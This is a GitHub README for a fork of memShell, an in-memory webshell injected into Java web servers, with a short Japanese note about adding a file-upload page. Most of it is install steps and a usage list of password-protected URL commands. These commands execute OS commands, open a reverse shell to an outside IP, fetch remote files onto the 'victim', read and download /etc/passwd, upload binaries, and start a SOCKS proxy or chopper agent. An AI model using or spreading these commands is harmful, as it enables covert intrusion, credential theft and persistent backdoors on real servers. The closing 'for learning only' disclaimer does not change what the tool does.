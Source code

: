 # memShell のフォークほしくなった機能を追加していく
- ファイルアップロード用のページの追加 binupload

agent.jarに対して機能追加をする。
コンパイル+source.txtの書き換え後、agent/net を 上書きする。
inject.jarはそのまま使用する。
```
"C:\Program Files\Java\jdk1.8.0_202\bin\jar.exe" cvfm agent.jar META-INF\MANIFEST.MF .
```

# memShell
a webshell resides in the memory of java web server

# install
* unzip memShell.zip
* cd memShell
* java -jar inject.jar
# usage
* anyurl?pass_the_world=pass //show this help page.  
* anyurl?pass_the_world=pass&model=exec&cmd=whoami  //run os command.  
* anyurl?pass_the_world=pass&model=connectback&ip=8.8.8.8&port=51 //reverse a shell back to 8.8.8.8 on port 51.  
* anyurl?pass_the_world=pass&model=urldownload&url=http://xxx.com/test.pdf&path=/tmp/test.pdf //download a remote file via the victim's network directly.  
* anyurl?pass_the_world=pass&model=list[del|show]&path=/etc/passwd  //list,delete,show the specified path or file.  
* anyurl?pass_the_world=pass&model=download&path=/etc/passwd  //download the specified file on the victim's disk.  
* anyurl?pass_the_world=pass&model=upload&path=/tmp/a.elf&content=this_is_content[&type=b]   //upload a text file or a base64 encoded binary file to the victim's disk.  
* anyurl?pass_the_world=pass&model=proxy  //start a socks proxy server on the victim.  
* anyurl?pass_the_world=pass&model=chopper  //start a chopper server agent on the victim.  

**!!!It is recommended to use the POST method to submit data.** 

# note
For learning exchanges only, do not use for illegal purposes.by rebeyond.
